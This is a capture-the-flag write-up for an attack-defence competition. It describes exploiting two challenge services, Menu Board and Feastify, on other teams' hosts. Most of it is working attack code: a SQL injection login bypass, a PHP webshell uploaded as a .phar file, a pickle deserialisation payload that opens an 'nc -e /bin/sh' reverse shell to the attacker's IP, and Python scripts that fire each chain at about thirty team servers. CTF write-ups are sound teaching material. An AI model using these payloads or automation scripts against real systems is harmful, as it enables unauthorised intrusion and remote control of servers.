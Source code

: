 # SiberSiaga x iHACK Semi Finals 2024 - Writeup
My first A&D style CTF, representing GPT-1010. It was not a flawless experience but I still kinda enjoyed it due to the good quality of challenges and learned a lot.<br><br>
It spanned 2 days with a total of 12 hours (1hr/round). Only thing to regret is I accidentally slept at night of day 1 without preparing for day 2 and one of our challenge instance got attacked in the morning of day 2 resulting in us losing all attack points due to 0% SLA. (Scoring: `(attacking_points * SLA) - deduction_points + sla_points + defensives_points`)<br>
In the end, we got exploits for 2 out of the 5 challanges.

## Table of Contents
- [Menu Board](#menu-board)
- [Feastify](#feastify)

## Menu Board
We were presented with only a static website showing menu without other options.<br>
After struggling for a few hours, I started checking server logs in `/var/log/menuboard/apache_access.log` and found other teams has been accessing our `login.php` and `add.php` to add menu items. Their usage of `.phar` files showed that the server is vulnerable to code execution with phar files.
<br><br>
In `login.php`, we are able to confirm the existence of an SQL injection vulnerability by submitting both fields with a single quote (') character which gives us a mysql error. We were able to exploit the vulnerability to dump the database but was unable to login due to the password was md5 encoded and password field cannot be injected.
![image](https://github.com/user-attachments/assets/a77cdc3d-28ef-4f8b-aea8-e9f27383d21f)
<br>
The turning point of this situation occured when sevreal teams gladly walked in before my eyes and showed me (feat. **Sudu_bediri, Kena Paksa, CSN**) how to use the webshell that **anti_1337** placed on us.<br>
![image](https://github.com/user-attachments/assets/3faec2d7-0e38-41a7-bceb-92bcccf2c855)
<br>
From there we are able to obtain the php source code and therefore get to see the login logic, which looked like this:
```php
$query = "SELECT username, password, role FROM users WHERE username='$username'";
$result = mysqli_query($conn, $query);
if (mysqli_num_rows($result) == 1) {
    $row = mysqli_fetch_assoc($result);
    if ($row['password'] == $hashed_password) {
        $_SESSION['username'] = $row['username'];
        $_SESSION['role'] = $row['role'];
        return true;
    } else {
        return false;
    }
```
Based on the source, we therefore can craft an injection query where username = `' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g`, password = `1` to login.<br><br>
After that, we just need to create an menu item with a phar file as the cover image to gain RCE.<br>
Our webshell payload: (thanks **anti_1337** 😉)
```php
<?php system($_REQUEST['gptgpt123']);?>
```
Getting flag:
![image](https://github.com/user-attachments/assets/c93f3eba-3faa-4696-a0c2-69b643cb409b)

<details>
<summary>Attack automation</summary>

```py
import requests
from typing import Optional
import warnings

warnings.filterwarnings('ignore')


teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}


def pwn(ip) -> Optional[str]:
    session = requests.session()
    try:
        burp0_url = f"https://{ip}:443/login.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/login.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = {"username": "' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g", "password": "1"}
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/add.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarylKLFBVni1R77A4as", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/add.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = "------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"description\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"category\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"tag\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"image\"; filename=\"something.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_REQUEST['gptgpt123']);?>\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"price\"\r\n\r\n12\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\non\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\ntrue\r\n------WebKitFormBoundarylKLFBVni1R77A4as--\r\n"
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/assets/uploads/img/something.phar?gptgpt123=/usr/local/bin/flag"
        burp0_headers = {"Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        resp = session.post(burp0_url, headers=burp0_headers, verify=False, timeout=2).text
        # print(resp)
        return resp
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None
    return None


flags = []
n_ok, n_err = 0, 0
for name, ip in teams.items():
    flag = pwn(ip)
    if flag is None or "ihack24" not in flag:
        print(f"!!! NO FLAG {name}")
        n_err += 1
    else:
        print(f"Ok {name}")
        n_ok += 1
        flags.append(flag.strip())

print("\n".join(flags))
print()
print(",".join(flags))

print("Ok: ", n_ok, "Error: ", n_err)
```
</details>

[*Back to top*](#table-of-contents)


## Feastify
In the main webpage, every menu item leads us to a link to download an android app called feastify.<br>
If we directly access the service through port 8000 we would get an error saying `Access denied. This API is only accessible from Android devices.`
<br><br>
Therefore, we first download and run the app with packet capture enabled. After clicking around, we found that the `/api/submit_order` endpoint is POSTing some mystery data in base64. In the reverse engineered source code we can see that it has something to do with `pickler` library, which is a Java serialisation library for python's pickle format.
<br><br>
As pickle is famous for its RCE vulnerability (as seen in the official docs), we decided to try it.
![image](https://github.com/user-attachments/assets/4f1880d3-9ecb-4451-933e-f89e0f27210d)
The script below generates an attack payload abusing pickle's insecure deserialisation vulnerability.
```py
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/sh 172.16.124.11 34512",))

data = {"orders":[{"item_id":21,"quantity":1}],"remarks":""}

pickledPayload = pickle.dumps(P())
enc = base64.b64encode(pickledPayload)
print(enc)
```
With `nc -lnvp 34512` running on our attacking machine, submitting the attack payload was able to get us a reverse shell on the victim server.

<details>
<summary>Payload submission automation</summary>

```py
import requests
import warnings

warnings.filterwarnings('ignore')

teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}

# Define the URL and headers
headers = {
    'Cookie': 'session_id=a37786e6-8e29-492b-9165-c3d6e6407e69',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 7.1.2; SM-G955F Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.193 Safari/537.36',
    'Content-Type': 'application/json; charset=utf-8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

# Define the JSON data to be sent in the request body
data = {
    # edit your payload here!!!
    "data": "gASVGAAAAAAAAACMBHRpbWWUjAVzbGVlcJSTlEsAhZRSlC4=" # sleep 0
}

n_ok, n_err = 0, 0
# Send the POST request
for name, ip in teams.items():
    url = f"https://{ip}:8000/api/submit_order"
    try:
        response = requests.post(url, headers=headers, json=data, verify=False, timeout=2)
        print(response.status_code)
    except:
        print("Error: " + name)
        n_err += 1
        continue
    print("Ok " + name)
    n_ok += 1

print("Ok: ", n_ok, "Error: ", n_err)

```
</details>

[*Back to top*](#table-of-contents)
